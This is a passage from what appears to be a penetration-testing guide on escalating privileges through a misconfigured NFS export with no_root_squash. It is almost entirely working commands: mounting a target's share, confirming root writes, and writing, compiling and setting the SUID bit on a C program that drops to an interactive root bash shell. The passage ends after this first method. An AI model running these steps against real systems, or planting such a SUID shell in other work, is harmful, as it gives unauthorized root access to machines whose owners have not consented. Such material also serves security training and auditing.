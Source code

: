 #### Step 1: Mount Analysis
```bash
# Mount the export
sudo mkdir -p /mnt/target_nfs
sudo mount -t nfs <target-ip>:/ /mnt/target_nfs

# Analyze mount options
mount | grep <target-ip>
cat /proc/mounts | grep nfs

# Check filesystem permissions
ls -la /mnt/target_nfs/
```

#### Step 2: Write Permission Testing
```bash
# Test write access as root
sudo bash -c 'echo "Root write test" > /mnt/target_nfs/root_test.txt'

# Check file ownership
ls -la /mnt/target_nfs/root_test.txt

# If file is created with root ownership, no_root_squash is enabled
```

#### Step 3: SUID Binary Creation

##### Method A: Simple SUID Shell
```bash
# Create SUID shell program
cat <<'EOF' > /mnt/target_nfs/suid_shell.c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash -i");
    return 0;
}
EOF

# Compile the program
gcc /mnt/target_nfs/suid_shell.c -o /mnt/target_nfs/suid_shell

# Set SUID permissions
chmod +s /mnt/target_nfs/suid_shell

# Verify SUID bit is set
ls -la /mnt/target_nfs/suid_shell
# Should show: -rwsr-sr-x
```
